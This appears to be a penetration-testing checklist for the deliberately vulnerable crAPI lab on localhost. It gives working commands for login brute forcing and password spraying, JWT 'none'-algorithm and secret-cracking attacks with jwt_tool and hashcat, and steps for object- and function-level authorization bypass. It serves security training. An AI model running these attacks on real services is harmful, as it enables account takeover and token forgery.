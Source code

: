 > # Authentication Attacks
>
> ## TC#01 Brute force
>
>> ### 'Should be able to brute force the login page with huge wordlists'
>
> Preconditions:
>
> Install mentalist: https://github.com/sc0tfree/mentalist/wiki/Installation#linux-apt-package-manager
> Install cupp: https://github.com/Mebus/cupp
>
>
> Steps:
```
wfuzz -d '{"email":"a@email.com","password":"FUZZ"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/rockyou.txt -u http://127.0.0.1:8888/identity/api/auth/login --hc 405
```
> Expected result:
> 
> 1. Should able to find correct usernames and passwords
> 
------------------------------------------------------------------------------------------
>
> ## TC#02 Password Spraying
>
>> ### 'Use Password Spraying to login page with short wordlists and weak passwords'
>
> Preconditions:
> 
> 1. Save the response containing an excessive data exposure as "response.json".
> 2. Pull emails from the saved JSON response and save as crapiusers file
```
grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json > crapiusers
```
> 3. Sort unique emails and save as crapiuniq file
```
cat crapiusers | sort -u > crapiuniq
```
> 4. Create passwords short list
```
Password1
Password3
Password123
Crapi123
Summer2022! 
Spring2022! 
March212006!
Fall2021!
12345Qwert!
Dorsey@2022
``` 
>
> Steps:
> 
> 1. Burp suite: clusterbomb
> 2. Set up users and passwords lists
> 3. Run
> 4. Payload Processing: base64-encode
> 5. Ctrl-shift-b -> right click -> convert selection -> base 64 decode
>
> Expected result:
> 
> 1. Should able to find correct password
> 
------------------------------------------------------------------------------------------
>
> # Api Token Attacks
>
> ## TC#03 JWT Attacks
>
>> ### 'Password Spraying to login page with short wordlists and weak passwords'
>
> Preconditions:
> 
> Analyze JWT token
> 1. Intercept request in burp suite
> 2. Open in Sequencer
> Click on Configure and highlight the token value
> 3. Click "Start Live Capture"
> ![Burp Suite Sequencer](/docs/token_analysis/Sequencer.png "Sequencer screenshot")
>
> 4. Use jwt_tools to analyze:
>
> ![jwt_tools](/docs/token_analysis/jwt_tool.png "jwt_tool screenshot")
>
>
> Steps:
> 1. Automating JWT attacks
> Use JWT automated tool (jwt_tools)
```
jwt_tool -t http://127.0.0.1:8888/identity/api/v2/user/dashboard -rh "Authorization: Bearer eyJhbGciOiJSUzI1NiJ9....2QKV-qv72Q" -M pb
```
> Change Algorithm value to "none":
```
jwt_tool eyJhbGciOiJ....dWIip6Ym2QKV_-qv72Q -X a
```
> 2. JWT Crack Attack
> Generate wordlist:
```
crunch 5 5 -o crapi.txt
```
> Run jwt_tools to find secret key
```
jwt_tool eyJhbGciOiJSUzI1NiJ9....2QKV-qv72Q -C -d crapis.txt
``` 
> Or run hashcat to crack secret sign
```
hashcat -a 0 -m 16500 eyJhbGyKcjHKjhw....akjF46xCpioGU0 /home/lizard/Downloads/rockyou.txt --show
```
>
> Expected result:
> 
> 1. Should able to find the secret key
> 
------------------------------------------------------------------------------------------
>
> # BOLA
>
> ## TC#01 Broken Object Level Authorization 
>
>> ### 'User should access the restricted page of another user using id parameter'
>
> Scope:
>
```
`GET /identity/api/v2/videos/:id?video_id={value}`
`GET /community/api/v2/community/posts/{value}`
`GET /identity/api/v2/vehicle/{value}/location`
```
>
> Test Data:
> 1. name: UserA; email: userA@test.com; phone: 0112233445
> 2. name: UserB; email: userB@test.com; phone: 0112233446
>
> Steps:
>
> 1. Create a UserA account.
> 2. Use the API and discover requests that involve resource IDs as UserA.
> 3. Document requests that include resource IDs and should require authorization.
> 4. Create a UserB account.
> 5. Obtaining a valid UserB token and attempt to access UserA's resources.

>
> Expected result:
> 
> 1. UserB Should be access for userA page using id parameter
> 
------------------------------------------------------------------------------------------
>
> # BFLA
>
> ## TC#01 Broken Function Level Authorization 
>
>> ### 'Another user shouldn't be able to edit the content of another user'
>
> Scope:
>
```
`POST /workshop/api/shop/orders/return_order?order_id={id}`
`POST /community/api/v2/community/posts/{id}/comment`
`PUT /identity/api/v2/user/videos/id`
`PUT /identity/api/v2/user/videos/id`
```
>
> Test Data:
> 1. name: UserA; email: userA@test.com; phone: 0112233445
> 2. name: UserB; email: userB@test.com; phone: 0112233446
>
> Steps:
>
> 1. Create a UserA account.
> 2. Add new order/post new comment/upload the video on profile page
> 3. Document requests that include resource IDs and should require authorization.
> 4. Create a UserB account.
> 5. Return order/post comment/edit video name of UserA content in scope.
> 6. Change the value 'user' to 'admin' in url
> 7. Delete the video of UserA
>
>
> Expected result:
> 
> 1. User Shouldn't be able to edit content on another user's page; 
> 
------------------------------------------------------------------------------------------